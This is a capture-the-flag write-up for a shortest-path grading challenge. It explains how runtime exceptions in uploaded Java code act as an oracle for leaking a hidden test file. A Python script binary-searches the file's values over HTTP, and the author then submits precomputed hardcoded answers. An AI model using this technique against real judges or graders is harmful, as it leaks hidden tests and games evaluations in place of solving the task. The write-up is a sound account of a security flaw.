





### preface
This challenge was actually inspired by an actual vulnerability in `codejudge` which is a compettive programming scoring system. When I took my first masters at ITU we had a class that used `codejudge`, here we had this crazy hard competitive programming challenge that we managed to get the fastest solution for in java. We were able to leak the input file by throwing exceptions and then precomputing the answers and then just printing them. There was this furious guy who had written a super optimized solution in rust, he simply did not understand how we had managed to write a java solution that outperformed his. Anyway it turned into this challenge....


-------

# DM i programmering
So this challenge asks you to solve the shortest path problem, but the graph is huge and the time available on the cpu is too slow to actually solve the challenge, also the program can maximum be 10.000 characters so its not even possible to just preprocess the graph in the code. 

We are however given the input graph to preprocess it and create cool shit, but 


So we have to cheat in some way, the key part of the description is:

```
The graph will be given, but the test cases are naturally hidden. You will be notified of compile errors and runtime exceptions.
```

and 

```
The file tests.txt starts with a single integer ( i ) ( 1 ≤ i ≤ 100 ) on a single line which represents the amount of test cases. Then follows i lines with each two space separated integers. The first integer is the id of the source node, the second is the id of the destination node.
```

So there is some input file, if we knew about the content of the input file, then we could figure out the question suite and preprocess the answers on our much beefier machines with unlimited time, and then just print out the answers?

First lets just give chatgpt the description and have it solve it in python for example:

```python
import heapq

def read_graph(file_name):
    with open(file_name, 'r') as file:
        num_nodes = int(file.readline().strip())
        num_edges = int(file.readline().strip())
        file.readline()  # Skip the blank line
        
        graph = {i: [] for i in range(num_nodes)}
        for _ in range(num_edges):
            node_from, node_to, weight = map(int, file.readline().strip().split())
            graph[node_from].append((node_to, weight))
        
    return graph

def dijkstra(graph, start, end):
    distances = [float('inf')] * len(graph)
    distances[start] = 0
    priority_queue = [(0, start)]
    
    while priority_queue:
        current_distance, current_node = heapq.heappop(priority_queue)
        
        if current_distance > distances[current_node]:
            continue
        
        for neighbor, weight in graph[current_node]:
            distance = current_distance + weight
            if distance < distances[neighbor]:
                distances[neighbor] = distance
                heapq.heappush(priority_queue, (distance, neighbor))
    
    return distances[end]

def read_tests_and_find_distances(graph_file, test_file):
    graph = read_graph(graph_file)
    with open(test_file, 'r') as file:
        num_tests = int(file.readline().strip())
        for _ in range(num_tests):
            start, end = map(int, file.readline().strip().split())
            distance = dijkstra(graph, start, end)
            print(distance)

# Usage
graph_file = 'graph.txt'
test_file = 'tests.txt'
read_tests_and_find_distances(graph_file, test_file)
```

This script can take the inputs like the challenge and spit out the answer, we will use it later.

So we need the `tests.txt` somehow.

So we should turn the runtime exception into an oracle to leak the input. What if we create a java program, that reads the first integer fron `tests.txt` and throws an exception if the input is less than for example 5?

```java
import java.io.BufferedReader;
import java.io.File;
import java.io.FileReader;
import java.io.IOException;
import java.util.ArrayList;
import java.util.List;

public class Run {
    public static void main(String[] args) {

        File graph = new File(args[0]);
        File tests = new File(args[1]);

        List<String> graph_content = readFileContent(graph);
        List<String> test_content = readFileContent(tests);

        if (Integer.parseInt(test_content.get(0)) < 5){
            throw new RuntimeException();
        }else{
            return;
        }
    }

    private static List<String> readFileContent(File file) {
        List<String> lines = new ArrayList<>();
        try (BufferedReader reader = new BufferedReader(new FileReader(file))) {
            String line;
            while ((line = reader.readLine()) != null) {
                lines.add(line);
            }
        } catch (IOException e) {
            System.err.println("An error occurred while reading the file: " + file.getPath());
            e.printStackTrace();
        }
        return lines;
    }
}
```

If we try to upload this script we get the following:



alright, lets try to change the script and flip the `>` to `<` and ask if the first input is larger than 5, then in case throw an exception.

We upload the script and then.



Ok so we can cleverly ask questions now, essentially binary searching the tests.txt file in the backend.

I wrote this super janky ass solve script on way too few hours of sleep. It will pull out all the test cases.

```python
import requests
from urllib.parse import quote

burp0_url = "http://157.230.16.162:10009/compile_and_run"
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://157.230.16.162:10009", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://157.230.16.162:10009/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}

#This java code is used to get how many tests 
javatests = '''import java.io.BufferedReader;
import java.io.File;
import java.io.FileReader;
import java.io.IOException;
import java.util.ArrayList;
import java.util.List;

public class Run {
    public static void main(String[] args) {

        File graph = new File(args[0]);
        File tests = new File(args[1]);

        List<String> graph_content = readFileContent(graph);
        List<String> test_content = readFileContent(tests);

        if (Integer.parseInt(test_content.get(FIRST)) > SECOND){
            throw new RuntimeException();
        }else{
            return;
        }
    }

    private static List<String> readFileContent(File file) {
        List<String> lines = new ArrayList<>();
        try (BufferedReader reader = new BufferedReader(new FileReader(file))) {
            String line;
            while ((line = reader.readLine()) != null) {
                lines.add(line);
            }
        } catch (IOException e) {
            System.err.println("An error occurred while reading the file: " + file.getPath());
            e.printStackTrace();
        }
        return lines;
    }
}
'''
#This java code is used to getting the inputs
javainputs = '''import java.io.BufferedReader;
import java.io.File;
import java.io.FileReader;
import java.io.IOException;
import java.util.ArrayList;
import java.util.List;

public class Run {
    public static void main(String[] args) {

        File graph = new File(args[0]);
        File tests = new File(args[1]);

        List<String> graph_content = readFileContent(graph);
        List<String> test_content = readFileContent(tests);
        String[] parts = test_content.get(LINE).split(" ");
        int testint = Integer.parseInt(parts[INDEX]);
        if (testint > TEST){
            throw new RuntimeException();
        }else{
            return;
        }
    }

    private static List<String> readFileContent(File file) {
        List<String> lines = new ArrayList<>();
        try (BufferedReader reader = new BufferedReader(new FileReader(file))) {
            String line;
            while ((line = reader.readLine()) != null) {
                lines.add(line);
            }
        } catch (IOException e) {
            System.err.println("An error occurred while reading the file: " + file.getPath());
            e.printStackTrace();
        }
        return lines;
    }
}'''

proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

def islargerthan_tests(index,number):
    index = str(index)
    number = str(number)
    payload = javatests.replace("FIRST",index).replace("SECOND",number)
    burp0_data = {"code": payload}
    a = requests.post(burp0_url, proxies=proxies,headers=burp0_headers, data=burp0_data)
    if "runtime" in a.text:
        return True
    else:
        return False


def findtests():
    low, high = 1, 500000
    while low <= high:
        mid = (low + high) // 2
        if islargerthan_tests(0,mid):
            low = mid + 1
        else:
            high = mid - 1
    return low

#tests = findtests()
tests=8
print("tests:"+str(tests))
def islargerthan_inputs(line,index,test):
    payload = javainputs.replace("LINE",str(line)).replace("INDEX",str(index)).replace("TEST",str(test))
    burp0_data = {"code": payload}
    a = requests.post(burp0_url, proxies=proxies,headers=burp0_headers, data=burp0_data)
    if "runtime" in a.text:
        return True
    else:
        return False

for i in range(tests):
    low, high = 0, 500000
    while low <= high:
        mid = (low + high) // 2
        if islargerthan_inputs(i+1,0,mid):
            low = mid + 1
        else:
            high = mid - 1
    print("source on line: "+str(i+1)+" is "+str(low))
    low, high = 0, 500000
    while low <= high:
        mid = (low + high) // 2
        if islargerthan_inputs(i+1,1,mid):
            low = mid + 1
        else:
            high = mid - 1
    print("sink case on line: "+str(i+1)+" is "+str(low))


```

you can see them here:

```
8
0 2
1 2
300 123
1337 1337
929 1000
1234 9876
11 22
1000 1001
```

Ok, then lets run the dijkstra.py with the graph and precompute the answers.



ok lets create a some java code to just print the answers

```java
public class Run {
    public static void main(String[] args) {
        System.out.println(147219);
        System.out.println(106042);
        System.out.println(101726);
        System.out.println(0);
        System.out.println(105053);
        System.out.println(122070);
        System.out.println(117948);
        System.out.println(145889);
    }
}
```


aaaaand upload it



annnnnnndd:



GREAT SUCCESS

(Sorry for this janky shit haha)